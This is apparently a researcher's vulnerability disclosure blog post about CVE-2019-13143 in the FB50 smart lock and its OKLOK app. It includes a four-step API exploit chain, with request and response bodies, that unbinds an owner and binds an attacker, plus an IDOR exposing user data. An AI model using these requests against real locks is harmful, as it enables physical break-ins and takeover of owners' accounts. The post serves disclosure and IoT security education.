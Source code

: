 ```yaml
---
template: text.html
atroot: true
title: Picking the FB50 smart lock (CVE-2019-13143)
subtitle: … and lessons learnt in IoT security
date: 2019-08-05
slug: fb50
---
```


(*originally posted at [SecureLayer7's Blog](http://blog.securelayer7.net/fb50-smart-lock-vulnerability-disclosure), with my edits*)

## The lock

The lock in question is the FB50 smart lock, manufactured by Shenzhen
Dragon Brother Technology Co. Ltd. This lock is sold under multiple brands
across many ecommerce sites, and has over, an estimated, 15k+ users.

The lock pairs to a phone via Bluetooth, and requires the OKLOK app from
the Play/App Store to function. The app requires the user to create an
account before further functionality is available. 
It also facilitates configuring the fingerprint,
and unlocking from a range via Bluetooth.

We had two primary attack surfaces we decided to tackle -- Bluetooth (BLE)
and the Android app.

## Via Bluetooth Low Energy (BLE)

Android phones have the ability to capture Bluetooth (HCI) traffic
which can be enabled under Developer Options under Settings. We made 
around 4 "unlocks" from the Android phone, as seen in the screenshot.

![](https://cdn.icyphox.sh/IO5G0.png)

This is the value sent in the `Write` request:

![](https://cdn.icyphox.sh/rJVoE.png)

We attempted replaying these requests using `gattool` and `gattacker`,
but that didn't pan out, since the value being written was encrypted.[^1]

## Via the Android app

Reversing the app using `jd-gui`, `apktool` and `dex2jar` didn't get us too
far since most of it was obfuscated. Why bother when there exists an 
easier approach -- BurpSuite.

We captured and played around with a bunch of requests and responses,
and finally arrived at a working exploit chain.

## The exploit

The entire exploit is a 4 step process consisting of authenticated 
HTTP requests:

1. Using the lock's MAC (obtained via a simple Bluetooth scan in the 
vicinity), get the barcode and lock ID
2. Using the barcode, fetch the user ID
3. Using the lock ID and user ID, unbind the user from the lock
4. Provide a new name, attacker's user ID and the MAC to bind the attacker
to the lock

This is what it looks like, in essence (personal info redacted).

### Request 1

```
POST /oklock/lock/queryDevice
{"mac":"XX:XX:XX:XX:XX:XX"}
```

Response:

```
{
   "result":{
      "alarm":0,
      "barcode":"<BARCODE>",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":<LOCK ID>,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
      "mac":"XX:XX:XX:XX:XX:XX",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0
   },
   "status":"2000"
}
```

### Request 2

```
POST /oklock/lock/getDeviceInfo

{"barcode":"https://app.oklok.com.cn/app.html?id=<BARCODE>"}
```

Response:

```
   "result":{
      "account":"email@some.website",
      "alarm":0,
      "barcode":"<BARCODE>",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":<LOCK ID>,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
      "mac":"XX:XX:XX:XX:XX:XX",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0,
      "userId":<USER ID>
   }
```

### Request 3

```
POST /oklock/lock/unbind

{"lockId":"<LOCK ID>","userId":<USER ID>}
```
### Request 4

```
POST /oklock/lock/bind

{"name":"newname","userId":<USER ID>,"mac":"XX:XX:XX:XX:XX:XX"}
```

## That's it! (& the scary stuff)

You should have the lock transferred to your account. The severity of this
issue lies in the fact that the original owner completely loses access to
their lock. They can't even "rebind" to get it back, since the current owner 
(the attacker) needs to authorize that. 

To add to that, roughly 15,000 user accounts' info are exposed via IDOR.
Ilja, a cool dude I met on Telegram, noticed locks named "carlock", 
"garage", "MainDoor", etc.[^2] This is terrifying.

*shudders*

## Proof of Concept

[PoC Video](https://twitter.com/icyphox/status/1158396372778807296)

[Exploit code](https://github.com/icyphox/pwnfb50)

## Disclosure timeline

- **26th June, 2019**: Issue discovered at SecureLayer7, Pune
- **27th June, 2019**: Vendor notified about the issue
- **2nd July, 2019**: CVE-2019-13143 reserved
- No response from vendor
- **2nd August 2019**: Public disclosure

## Lessons learnt

**DO NOT**. Ever. Buy. A smart lock. You're better off with the "dumb" ones
with keys. With the IoT plague spreading, it brings in a large attack surface
to things that were otherwise "unhackable" (try hacking a "dumb" toaster).

The IoT security scene is rife with bugs from over 10 years ago, like
executable stack segments[^3], hardcoded keys, and poor development 
practices in general.

Our existing threat models and scenarios have to be updated to factor 
in these new exploitation possibilities. This also broadens the playing 
field for cyber warfare and mass surveillance campaigns. 

## Researcher info

This research was done at [SecureLayer7](https://securelayer7.net), Pune, IN by:

* Anirudh Oppiliappan (me)
* S. Raghav Pillai ([@_vologue](https://twitter.com/_vologue))
* Shubham Chougule ([@shubhamtc](https://twitter.com/shubhamtc))

[^1]: [This](https://www.pentestpartners.com/security-blog/pwning-the-nokelock-api/) article discusses a similar smart lock, but they broke the encryption.
[^2]: Thanks to Ilja Shaposhnikov (@drakylar).
[^3]: [PDF](https://gsec.hitb.org/materials/sg2015/whitepapers/Lyon%20Yang%20-%20Advanced%20SOHO%20Router%20Exploitation.pdf)



